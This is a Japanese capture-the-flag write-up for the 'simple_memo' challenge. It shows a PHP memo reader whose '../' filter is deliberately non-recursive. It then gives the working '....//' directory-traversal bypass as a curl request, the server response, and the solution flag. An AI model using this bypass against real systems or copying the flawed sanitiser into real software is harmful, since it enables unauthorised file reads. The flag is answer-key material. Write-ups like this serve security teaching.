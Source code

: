 # simple_memo

```txt
flag.txtというファイルに私の秘密を隠したが、
完璧にサニタイズしたため辿りつける訳がない。

(Hint)
ディレクトリトラバーサルという脆弱性です。

writer : okmt
```

## Solution

問題にアクセスするとシンプルなメモが管理されています。

試しに `母の誕生日` にアクセスすると以下のようなパスでアクセスしていました。

```
http://localhost:8080/index.php?file=母の誕生日.txt
```

`file` パラメータに直接的にファイル名が指定されてアクセスしてることがわかります。

配布ファイルである `reader.php` を見てみると、サニタイジングしてる部分があります。

```php
<?php
function reader($file) {
  $memo_dir = "./memos/";

  // sanitized
  $file = str_replace('../', '', $file);
  
  $filename = $memo_dir . $file;
  $memo_exist = file_exists($filename);
  if ($memo_exist) {
    $content = file_get_contents($filename);
  } else {
    $content = "No content.";
  }
  return $content;
}
?>
```

`str_replace('../', '', $file)` の部分より、`../` が空文字列に置換されることがわかります。

これは再帰的な処理はなく、シンプルに `....//` のように入力することで真ん中の `../` が削除されて、結果 `../` だけ残って `file=../flag.txt` のようにアクセスすることができます。 

なので以下のようなパスでアクセスするとflagを得ることができます。
```shell
$ curl http://localhost:8080/index.php?file=....//flag.txt
<!DOCTYPE html>
<html lang="ja">
<head>
<title>The シンプル メモ張</title>
</head>

<body>
<div class="box"><span class="box-title">../flag.txt</span>FLAG{y0u_c4n_get_hi5_5ecret_fi1e}</div>
 ...
</html>
```

## Flag

```txt
FLAG{y0u_c4n_get_hi5_5ecret_fi1e}
```

